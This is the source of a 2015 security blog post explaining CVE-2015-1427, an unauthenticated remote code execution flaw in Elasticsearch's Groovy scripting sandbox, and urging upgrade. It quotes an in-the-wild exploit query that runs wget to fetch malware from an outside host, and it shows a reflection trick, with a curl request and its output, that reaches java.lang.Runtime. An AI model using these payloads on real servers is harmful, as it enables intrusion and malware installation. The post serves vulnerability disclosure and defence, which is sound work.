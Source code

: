 ```yaml
---
layout: post
title: "Remote Code Execution in Elasticsearch - CVE-2015-1427"
date: 2015-03-08 13:40
comments: true
published: true
categories:
- elasticsearch
- vulnerability
---
```

<img src="{{root_url}}/images/headers/elk_rce.png"/>
> TL;DR If you have an elasticsearch instance that is publicly available, upgrade to 1.4.3 or later **now**.

Elasticsearch (the "E" in ELK) is a full-text search engine that makes data aggregation and querying easy. It has an extensive JSON API that allows everything from searching to system management. This post will show how a new vulnerability, CVE-2015-1427, allows attackers to leverage features of this API to gain unauthenticated remote code execution (RCE).

> Much of the analysis discovering this vulnerability was originally found on a blog post [here](http://drops.wooyun.org/papers/5107) ([translated](https://translate.google.com/translate?hl=en&sl=zh-CN&tl=en&u=http%3A%2F%2Fdrops.wooyun.org%2Fpapers%2F5107)). This post aims to translate and provide more detail on the vulnerability.
<!--more-->
### This Isn't Elasticsearch's First Rodeo
One feature of the ```_search``` API endpoint is to allow users to [submit Groovy code](http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-scripting.html) in the search query itself. The server will then execute the code in a sandboxed environment, returning the result to the user. This way, the elasticsearch code can be used to execute... more code<sup>1</sup>

Allowing anybody to submit server-side code to get executed is a *dangerous* game to play. In fact, this isn't the first time Elasticsearch has been bitten by this feature. Elasticsearch pre-1.2 didn't have a sandbox *at all*, and allowed anyone to submit code to be executed. Since there are zero authentication controls built into elasticsearch, if the service is exposed to the Internet, anyone can own a server with a query like this:

``` json
{"query":
    {"filtered": {
        "query": {"match_all": {}}}},
        "script_fields": {"exp": {
            "script": "import java.util.*;import java.io.*;String str = \"\";BufferedReader br = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(\"wget -O /tmp/malware http://x.x.x.x/malware \").getInputStream()));StringBuilder sb = new StringBuilder();while((str=br.readLine())!=null){sb.append(str);sb.append(\"\r\n\");}sb.toString();"
    }}}
```

> Fun fact! This is an actual exploit attempt I've seen on my server.

This isn't anything new. In fact, there's a [Metasploit module](http://www.rapid7.com/db/modules/exploit/multi/elasticsearch/script_mvel_rce) that makes this easy.

Starting with version 1.3, Elasticsearch [allowed sending Groovy scripts](http://www.elasticsearch.org/blog/scripting/) in the query again. However, they added a sandbox to control what classes and functions can be executed.

Let's take a quick look at how the sandbox works to get a feel for how it can be exploited.

### How the Sandbox Works
The functions and classes that are allowed by the sandbox are found in [```GroovySandboxExpressionChecker.java ```](https://github.com/elasticsearch/elasticsearch/blob/master/src/main/java/org/elasticsearch/script/groovy/GroovySandboxExpressionChecker.java). Looking at the code, we notice the function ```isAuthorized```. This function takes in an expression and checks to see if it is allowed to be executed.

Without going through **everything** the sandbox does, here's the important part of the function:

``` java
if (expression instanceof MethodCallExpression) {
    MethodCallExpression mce = (MethodCallExpression) expression;
    String methodName = mce.getMethodAsString();
    if (methodBlacklist.contains(methodName)) {
        return false;
    } else if (methodName == null && mce.getMethod() instanceof GStringExpression) {
        // We do not allow GStrings for method invocation, they are a security risk
        return false;
    }
    //snip
}
```

This is the condition that checks to see if our method call is allowed to be executed. There are two checks we need to bypass in order to make this happen:

``` java
if (methodBlacklist.contains(methodName))
```

The ```methodBlacklist``` contains the following method calls that we can't use:

``` java
public static String[] defaultMethodBlacklist = new String[]{
    "getClass",
    "wait",
    "notify",
    "notifyAll",
    "finalize"
};
```
Ok, so we can't use any of those. Next, we need to make sure that our method name isn't null, and we don't use a [```GStringExpression```](http://groovy.codehaus.org/api/org/codehaus/groovy/ast/expr/GStringExpression.html). No problem.

There's one more hurdle that we have to overcome. This sandbox also restricts the packages that can have methods called on them (from [```SecureASTCustomizer.java```](https://github.com/groovy/groovy-core/blob/0b2182bff2250150e69ccb988f367e709b4560de/src/main/org/codehaus/groovy/control/customizers/SecureASTCustomizer.java#L854)):

``` java
if (receiversWhiteList != null && !receiversWhiteList.contains(typeName)) {
    throw new SecurityException("Method calls not allowed on [" + typeName + "]");
} else if (receiversBlackList != null && receiversBlackList.contains(typeName)) {
    throw new SecurityException("Method calls not allowed on [" + typeName + "]");
}
```
The whitelist for elasticsearch is found in the variable ```defaultReceiverWhitelist```:

``` java
private final static String[] defaultReceiverWhitelist = new String [] {
    groovy.util.GroovyCollections.class.getName(),
    java.lang.Math.class.getName(),
    java.lang.Integer.class.getName(), "[I", "[[I", "[[[I",
    //snip
};
```
On the surface, this eliminates our ability to call any methods on interesting packages, such as ```java.lang.Runtime```, which could be used to execute system commands. However, there's a way we can bypass both the package whitelist and the method blacklist to execute our code. This is done through a tricky Java feature called [```reflection```](http://docs.oracle.com/javase/tutorial/reflect/).

### Bypassing the Sandbox with Reflection
Vulnerabilities can often be reverse-engineered by inspecting the patches since the previous release. The commit that we will look at is [here](https://github.com/elasticsearch/elasticsearch/commit/68c4a6201e6c889b272c1b64550237fe6d172b47). The changes in this commit give us some hints about how we can exploit the vulnerability:

<img src="{{root_url}}/images/blog/elk/rce.png"/>

This makes it pretty clear that we can probably do something with the ```.class``` and ```.forName()``` method calls. These methods, chained together, allow us to take one package class (such as one found in the whitelist) and use it to load a reference to a completely separate class (such as ```java.lang.Runtime```) via reflection.

So what does this look like?

Let's see if we can load the ```java.lang.Runtime``` package by using reflection off of the ```java.lang.Math``` package, which is in the whitelist of packages we can use:

``` text
$ curl http://localhost:9200/_search?pretty -XPOST -d '{"script_fields": {"myscript": {"script": "java.lang.Math.class.forName(\"java.lang.Runtime\")"}}}'

{
  <snip>
  "hits" : {
    "total" : 8,
    "max_score" : 1.0,
    "hits" : [ {
      <snip>
      "fields" : {
        "myscript" : [ "class java.lang.Runtime" ]
      }
    }
}}
```
*Success!* We can see the result of our query returned an instance of the ```java.lang.Runtime``` class. We can use this instance to execute system commands on the server.

I won't provide a full proof-of-concept, but all the pieces are here. Using a mix of the first exploit shown above along with the way I've shown to get a reference to the ```java.lang.Runtime``` package, it is pretty straightforward to run whatever commands you want.

### Conclusion

This vulnerability was not heavily advertised, but it is absolutely critical. In fact, I had one of my own elasticsearch instances compromised this way, showing this vulnerability is heavily being exploited in the wild.

Elasticsearch recommends to only allow the software to be accessed locally, but there are a *ton* of publicly available ES instances. This is likely because the default configuration listens on ```0.0.0.0:9200```.

If you use elasticsearch, and haven't upgraded to 1.4.3 (or the latest 1.4.4), I recommend upgrading **immediately**.

As always, let me know if you have any questions or comments below!

Jordan ([@jw_sec](https://twitter.com/jw_sec))

<sup>1</sup> There's an Xzibit joke to be made here.
